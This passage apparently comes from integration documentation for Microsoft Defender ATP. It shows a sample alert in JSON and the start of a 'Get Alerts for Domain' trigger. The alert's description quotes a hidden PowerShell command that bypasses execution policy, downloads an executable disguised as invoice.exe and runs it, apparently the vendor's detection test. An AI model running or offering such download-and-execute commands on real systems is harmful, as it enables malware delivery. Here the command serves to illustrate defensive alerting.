```
{
   "results":[
      {
         "AlertTime":"2018-11-07T18:59:10.2582627Z",
         "ComputerDnsName":"xxxxxxxx",
         "AlertTitle":"Suspicious Powershell commandline",
         "Category":"SuspiciousActivity",
         "Severity":"Medium",
         "AlertId":"636772141692393966_614861963",
         "LinkToWDATP":"https://securitycenter.windows.com/alert/636772141692393966_614861963",
         "Sha1":"1b3b40fbc889fd4c645cc12c85d0805ac36ba254",
         "FileName":"powershell.exe",
         "FilePath":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0",
         "IoaDefinitionId":"7f1c3609-a3ff-40e2-995b-c01770161d68",
         "AlertPart":0,
         "FullId":"636772141692393966_614861963:DEkMrsut7_rqWkwqIaCEcsytUIOl_Dvi56ShSB9wKco=",
         "LastProcessedTimeUtc":"2018-11-07T19:05:01.8993766Z",
         "Source":"EDR",
         "Md5":"95000560239032bc68b4c2fdfcdef913",
         "Sha256":"d3f8fade829d2b7bd596c4504a6dae5c034e789b6a3defbe013bda7d14466677",
         "LogOnUsers":"XXXXXXXX\\Administrator",
         "MachineName":"XXXXXX",
         "InternalIPv4List":"XXX.XXX.XXX.XXX",
         "InternalIPv6List":"XXXXXXXXXX",
         "FileHash":"1b3b40fbc889fd4c645cc12c85d0805ac36ba254",
         "DeviceID":"c6944fa14970633adeecbabc104167ef12557a6f",
         "Description":"A suspicious Powershell commandline was found on the machine. This commandline might be used during installation, exploration, or in some cases with lateral movement activities which are used by attackers to invoke modules, download external payloads, and get more information about the system. Attackers usually use Powershell to bypass security protection mechanisms by executing their payload in memory without touching the disk and leaving any trace.\r\nThe process powershell.exe was executing suspicious commandline \r\npowershell.exe  -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe'); Start-Process 'C:\\test-WDATP-test\\invoice.exe'",
         "ExternalId":"418AE8AD3F8A1B26F9D02B09E0583A0AEBAC93E7",
         "IocUniqueId":"DEkMrsut7_rqWkwqIaCEcsytUIOl_Dvi56ShSB9wKco="
      }
   ]
}
```

#### Get Alerts for Domain

This trigger is used to get alerts by domain.

##### Input

|Name|Type|Default|Required|Description|Enum|
|----|----|-------|--------|-----------|----|
|domain|string|None|True|Domain to get|None|
